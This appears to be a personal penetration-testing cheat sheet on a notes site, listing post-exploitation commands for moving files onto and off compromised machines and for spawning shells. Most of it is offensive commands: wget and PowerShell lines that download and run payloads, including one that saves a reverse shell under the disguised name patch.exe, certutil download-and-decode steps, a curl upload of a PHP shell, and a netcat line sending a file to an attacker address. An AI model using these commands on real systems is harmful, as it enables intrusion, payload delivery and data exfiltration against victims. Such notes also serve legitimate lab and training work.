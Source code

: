 ```yaml
---
layout: single
title: "Misc Notes"
collection: notes
excerpt: "Trials and tribulations"
permalink: /notes/2020-05-10-misc
toc: true
---
```


# Exploitation:



# Post Exploitation
## Transfering Files: 
HTTP:
- Apache: 
Copying the file to `/var/www/html` directory and starting apache services.
-  Python
```python
  python -m SimpleHTTPServer 80
  python3 -m http.server 80
```

Downloading the files:
*  via browser in a Gui platform.
*  via shell access.
   -  wget command.
   ```python
    wget http://10.10.10.100:8007/execute.py; chmod +x excute.py; ./excute.py
   ```
   - Using Powershell:
   ```python
   powershell -c "iex(new-object System.Net.WebClient).DownloadFile('http://10.10.14.30:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
   powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.x.x.x:8000/reverse_shell.exe','C:\Windows\Temp\patch.exe')
   certutil.exe -urlcache -split -f "https://host/40564.txt" attack.txt
   certutil.exe -decode attack.txt attack.exe
   ```
   -  curl command.
   ```python
     curl -O http://10.10.14.30:9005/file
     Uploading:
     curl --upload-file shell.php --url http://$ip/shell.php --http1.0
   ```
   -  Python.
   ```python
      python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
   ```

Ftp:
- 
   ```python
      Install the python ftp library - pyftpdlib
      python -m pyftpdlib -p 21
   ```

Smb:
-  
   ```python
      python smbserver.py SHARENAME /root/shells

      Copying files:[Target Machine]
       dir \\192.168.0.201\SHARENAME
       copy \\192.168.0.201\SHARENAME\40056.exe
   ```

Protip:
-  
```python
   On local system:
   cat filetoupload | base64 -w 0; echo
   #double click on output to copy
   On Target System:
   echo <copiedContent> | base64 -d > filetoupload
```

* Netcut:

   ```python
      on attacker run:
      nc -lvp 443> transfer.txt
      on target run:
      cat transfer.txt | nc $attackerip 443
   ```

## Spawning a Shell:
Python:
```python
    python -c  'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Echo:
```python
   echo os.system('/bin/bash') 
```
Bash and Sh:
```python
   /bin/bash -i
   /bin/sh -i
```
## List user privileges:
```python
   Windows: 
   whoami /priv
   Unix:
   sudo -l
```